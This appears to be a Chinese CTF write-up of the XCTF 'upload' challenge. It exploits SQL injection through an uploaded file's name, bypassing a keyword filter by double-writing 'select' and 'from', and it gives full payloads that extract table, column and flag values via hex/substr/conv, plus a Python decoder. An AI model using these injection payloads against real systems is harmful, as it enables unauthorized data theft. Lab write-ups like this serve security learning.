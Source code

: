 # upload

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=cf7ad2aa-422b-49fa-8799-786a6fd70d1a_2)

这算哪门子upload？这是什么神奇的sql注入？

网页要求注册。因为题目是upload我就没想着在注册框测试sql注入。注册完成后来到一个文件上传页面。文件只能上传jpg后缀，jpeg都不行。传上去后就可以发现和想象中的upload不一样：是不是忘了给路径了？

接着持续懵逼。我要干啥？看了[wp](https://blog.csdn.net/weixin_42499640/article/details/96041817)，不是吧sql怎么阴魂不散啊，文件名也能注入？遂又看了一个[wp](https://article.itxueyuan.com/EeJq15)。

注入肯定先从select database()开始测试一下。结果把文件名改成sql语句后select不见了。那可能是置空过滤。这种过滤很容易就能绕过，双写完事。然后猜闭合。大佬们猜出了后台可能的代码。

- insert into 表名('filename',...) values('你上传的文件名',...);

所以是单引号闭合。闭合后sql注入的语句会被拼接到上传的文件名中。构造payload。

- '+seselectlect database()+'.jpg

但是回显文件名是0。可能是查询的内容里不能有字母。可以转成16进制，用hex函数。不对，16进制也有字母，那再把16进制转成10进制。转换进制用[CONV](https://blog.csdn.net/geming2017/article/details/84256843#:~:text=MySQL%20CONV%EF%BC%88%EF%BC%89%E5%B0%86%E4%B8%80%E4%B8%AA%E6%95%B0%E5%AD%97,%E8%A7%86%E4%B8%BA%E5%B8%A6%E7%AC%A6%E5%8F%B7%E6%95%B0%E3%80%82)函数。

- '+(selselectect conv(hex(database()),16,10))+'.jpg 

……为什么是科学计数法。再看看wp，原来超过12位的数字就会被转为科学计数法。那我们用substr每次截取12位就得了。知道关键点hex(),substr()和conv()后就可以随意构造payload了。

- 查表
  > '+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = database() limit 1,1)),1,12),16,10))+'.jpg<br>'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = database() limit 1,1)),13,12),16,10))+'.jpg<br>'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = database() limit 1,1)),25,12),16,10))+'.jpg

库懒得查了，之前只是个测试。查得表名为hello_flag_is_here。

- 查字段
  > '+(seleselectct+CONV(substr(hex((seleselectct COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME='hello_flag_i_here' limit 0,1)),1,12),16,10))+'.jpg<br>'+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = 'hello_flag_is_here' limit 0,1)),13,12),16,10))+'.jpg

from也被过滤了，继续双写绕过。得到字段名为i_am_flag。

- 爆字段值
  > '+CONV(substr(hex((seleselectct i_am_flag frfromom hello_flag_is_here limit 0,1)),1,12),16,10)+'.jpg<br>'+CONV(substr(hex((seleselectct i_am_flag frfromom hello_flag_is_here limit 0,1)),13,12),16,10)+'.jpg<br>'+CONV(substr(hex((seleselectct i_am_flag frfromom hello_flag_is_here limit 0,1)),25,12),16,10)+'.jpg

把字段值的内容拼接起来就是flag。

```python
data=[36427215695199,92806431727430,560750951]
for i in data:
    print(bytes.fromhex(hex(i)[2:]).decode(),end='')
```

- ### Flag
  > !!_@m_Th.e_F!lag